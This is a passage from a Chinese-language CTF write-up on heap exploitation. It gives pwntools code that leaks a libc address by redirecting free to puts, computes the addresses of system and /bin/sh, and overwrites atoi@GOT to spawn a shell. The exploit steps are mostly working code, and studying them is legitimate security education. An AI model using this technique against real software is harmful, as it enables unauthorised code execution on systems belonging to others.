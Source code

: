 ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1601195372033-fcef2929-4016-4100-9d17-7c3e0d257d78.png)

接下来就是释放s[1]了，虽然是调用`free(puts_got)`，但实际上是`puts(puts_got)`，需要注意的是我们接收泄露的地址的时候需要用`\x00`补全，并且用u64()转换一下才能用：

```python
log.info("Leaking address...")
delete(1)
p.recvuntil("FAIL\n")
puts_addr = u64(p.recv(6) + '\x00\x00')
log.success("puts address : 0x%x" % puts_addr)
time.sleep(1)
p.recvuntil("OK")
```

## 6、查找system()函数和/bin/sh字符串
这部分就没什么好说的了吧，从栈溢出开始就是这个路子😂

```python
log.info("Finding offset in libc...")
time.sleep(1)
puts_offset = libc.symbols["puts"]
log.success("atoi offset: 0x%x" % puts_offset)
time.sleep(1)
log.info("Calculating libc address...")
time.sleep(1)
libc_addr = puts_addr - puts_offset
log.success("Libc address: 0x%x" % libc_addr)
log.info("Calculating system & /bin/sh address...")
system_addr = libc_addr + libc.symbols["system"]
binsh = libc_addr + libc.search("/bin/sh").next()
log.success("system address: 0x%x" % system_addr)
log.success("/bin/sh address: 0x%x" % binsh)
time.sleep(1)
```

## 7、拿shell！
到了最后一步了，还是用前面的思路，我们将部署在s[2]中的atoi_got中的地址修改成前面找到的system()函数地址，这样一来在接收字符串调用atoi()函数的时候实际上调用的是system()函数：

```python
log.info("Changing atoi@got --> system@got...")
payload3 = p64(system_addr)
edit(2, len(payload3) + 1, payload3)
time.sleep(1)
p.recvuntil("OK")
log.info("Now atoi@got is system@got, so just pass the string '/bin/sh' to atoi")
log.info("Actually we called system('/bin/sh') !")
time.sleep(1)
p.send(p64(binsh))
log.info("Ready in 5 seconds...")
time.sleep(5)
gdb.attach(p)
log.success("PWN!!")
p.interactive()
```
